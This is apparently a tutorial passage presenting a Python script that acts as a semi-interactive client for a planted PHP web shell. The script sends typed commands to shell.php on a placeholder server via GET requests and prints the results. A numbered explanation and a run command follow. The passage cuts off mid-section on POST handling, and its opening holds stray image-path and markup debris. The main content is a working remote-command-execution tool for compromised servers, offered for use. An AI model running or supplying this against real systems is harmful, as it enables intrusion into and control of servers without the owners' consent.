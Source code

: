 ```</pre>

The following Python script automates sending commands to a web shell through HTTP requests and prints the output in a semi-interactive manner. This makes using the web shell more manageable from a terminal.

**Python Script for Semi-Interactive Web Shell:**

```
import requests

# Set the URL of the web shell
url = "http://SERVER_IP:PORT/shell.php"

# Infinite loop for continuous command input
while True:
    # Prompt user for command input
    cmd = input("Shell> ")

    # Exit if the user types 'exit'
    if cmd.lower() == "exit":
        break

    # Send the command via GET request
    response = requests.get(url, params={"cmd": cmd})

    # Print the output from the server
    print(response.text)
```


### **How It Works:**

1. **URL Definition**: The script points to the URL where the web shell is hosted.
2. **Command Input**: It continuously prompts the user for input.
3. **Sending Command**: It sends the command as a parameter (`cmd`) via a GET request to the web shell.
4. **Output Display**: The response from the server (command execution result) is displayed in the terminal.
5. **Exit Command**: Typing `exit` breaks the loop and closes the shell.

You can save this script as `web_shell.py` and run it in your terminal:

<pre>
```
python3 web_shell.py
```
</pre>

---

### **Handling Edge Cases**

- **Handling POST Requests**: If the web shell uses POST instead of GET, modify the script to send data in the request body:
    
    <pre>```python
```